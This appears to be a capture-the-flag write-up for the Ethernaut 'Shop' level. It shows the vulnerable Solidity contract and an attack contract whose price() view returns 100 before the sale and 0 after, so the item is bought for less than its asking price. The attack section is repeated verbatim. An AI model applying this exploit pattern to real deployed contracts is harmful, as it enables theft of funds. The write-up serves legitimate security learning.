 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

Challenge's message:

> Сan you get the item from the shop for less than the price asked?

# Subverting


```solidity
pragma solidity ^0.8.0;

import './Shop.sol';


contract Attack is Buyer{

    Shop target;

    constructor(address _target){
        target = Shop(_target);
    }

    function buy()external{
        target.buy();
    }

    function price() external override view returns (uint){
        return target.isSold() ? 0:100;
    }

}
```

Ethernaut's message:

> Contracts can manipulate data seen by other contracts in any way they want. It's unsafe to change the state based on external and untrusted contracts logic.

# Subverting

```solidity
pragma solidity ^0.8.0;

import './Shop.sol';


contract Attack is Buyer{

    Shop target;

    constructor(address _target){
        target = Shop(_target);
    }

    function buy()external{
        target.buy();
    }

    function price() external override view returns (uint){
        return target.isSold() ? 0:100;
    }

}
```


